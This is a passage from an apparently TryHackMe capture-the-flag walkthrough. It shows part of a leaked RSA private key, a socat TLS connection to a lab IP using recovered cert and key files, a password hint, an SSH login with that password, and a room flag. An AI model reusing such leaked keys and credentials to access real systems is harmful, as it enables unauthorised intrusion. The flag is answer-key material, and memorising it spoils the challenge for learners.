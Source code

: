 ```
02r9upIn88T4BG/V8hdlH7O7V5zU4V/pjHvgCgt/YdwovP1cz/WNOm9gPWW3lpCv
GQTiq6vdzpJhhKAmvFc9258Sx9hl1Sb/lH+YociSz4Q1ZvBwjxLc3Jtm92qD6Yw1
NHSENqS1ENrAIZHOHymMBI+HoBkksqCLuShTbCcCgYAI78GCxmy0nXPtEgfa/in2
h8PRfNILDcdUiYeDl1Ss4ctMFEmL8+f/UtLi/JgsKa+grUROChu7RfupPQ7h0nuT
s7o0xc5ZLt+JykbgF0QTOmOIUbrudLXb10uEQkeXjz3HTXg8xbw8ZvaSnzJFuA+V
Y78J2MLiq0Bm+1DKuAJcXwKBgH/KaAw8ook1ijujrbuarbmpn7YpZB98Z1RIKbiC
0n008pPLuDzBBPtJKN2dq73gJIYbn7HOF60qs0rEks69HAvFKtfR/yndAk/5fnJL
N7tr1zyZ0po3CgjssNt+Ie4hY/KQiyoNSQu9fagFkCJsqILiDbtzrJ70KOgfC4+C
1AgfAoGBAMZpH7UhfsdYljB1j2um1HpE+AYSITzN04hfmFPKhbVSuk/jXt2A6Q5F
7im1lSdtBhICfY4MWU46ctKoPMShSLO7z1WFkDJ3GBqhFWFWzLU+xsGwr6Kc+Tel
UeQWNDon53gPJl7ZFcN6ndd4Kr+EriyiuMWI0ypZ1a0JVeMmDc3L
-----END RSA PRIVATE KEY-----


What are you looking for? 
                                                                                    
```

> ## make new Two files **`Barney.key`** **`Barney.key`**


<img width="1187" height="205" alt="image" src="https://github.com/user-attachments/assets/1d23590d-8c8b-4fd9-8fed-20e4ed5ffabb" />


> ## now connect

```ruby
socat stdio ssl:10.10.226.43:54321,cert=Barney.crt,key=Barney.key,verify=0
```

<img width="850" height="365" alt="image" src="https://github.com/user-attachments/assets/2a416853-2303-45e3-92e4-988700c9c8ea" />


```
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```




## login to ssh 

```
ssh barney@10.10.226.43
password : d1ad7c0a3805955a35eb260dab4180dd
```

<img width="738" height="183" alt="image" src="https://github.com/user-attachments/assets/3ef6d5af-a30d-4c64-870b-1f04d9a78533" />

```
THM{f05780f08f0eb1de65023069d0e4c90c}
```


<img width="1090" height="349" alt="image" src="https://github.com/user-attachments/assets/6e732b11-d73f-4689-bc22-91d5bd92a0a2" />


> ## after some search found users `certs` and `keys`
